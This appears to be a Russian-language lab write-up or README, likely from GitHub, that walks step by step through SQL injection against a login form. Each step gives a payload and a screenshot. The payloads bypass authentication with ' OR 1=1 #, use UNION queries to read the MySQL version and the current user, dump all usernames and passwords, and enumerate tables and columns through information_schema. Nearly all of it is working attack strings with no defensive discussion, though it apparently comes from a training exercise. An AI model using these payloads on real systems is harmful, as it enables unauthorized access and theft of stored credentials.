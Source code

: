 1. Список всех пользователей.
Инъекция: ' OR 1=1 #

![image](https://github.com/user-attachments/assets/be500567-e423-4c57-a012-9e362812fae5)

3. Узнать версию MySQL
Инъекция: ' UNION SELECT @@version, @@version # (ввод в поле пароля, user - james_kirk)

![image](https://github.com/user-attachments/assets/bc405aac-a85a-4cd3-8778-c3b4afcace6e)

4. Узнать пароли всех пользователей
Инъекция: ' UNION SELECT username,password FROM users;

![image](https://github.com/user-attachments/assets/523a0a88-3c0a-4652-b164-69b7ee49dc81)

5. Определить текущего пользователя базы данных
Инъекция: ' UNION SELECT CURRENT_USER(), CURRENT_USER() # (ввод в поле пароля, user - james_kirk)

![image](https://github.com/user-attachments/assets/2efacd00-cf7a-4dff-a4f6-a5287892a37c)

6. Извлечь имена таблиц из схемы базы данных
Инъекция: ' UNION SELECT table_name, table_name FROM information_schema.tables # (ввод в поле пароля, user - james_kirk)

![image](https://github.com/user-attachments/assets/533bd8a5-0105-4ad5-915e-7025aa41ce72)
![image](https://github.com/user-attachments/assets/38ba41ae-c7ba-4d29-a056-366be66cab1f)
![image](https://github.com/user-attachments/assets/105942ec-4130-4701-9c66-9cd26fbb830c)
![image](https://github.com/user-attachments/assets/8868d9d0-0a3b-438a-a764-d198915ae0e2)
![image](https://github.com/user-attachments/assets/9c44a0a9-7192-4999-9340-e975ec2390d2)

7. Получить список столбцов users таблицы
Инъекция: ' UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_name = 'users' # (ввод в поле пароля, user - james_kirk)

![image](https://github.com/user-attachments/assets/c32f533a-1d87-4bd1-9c6b-e14e20d861ed)

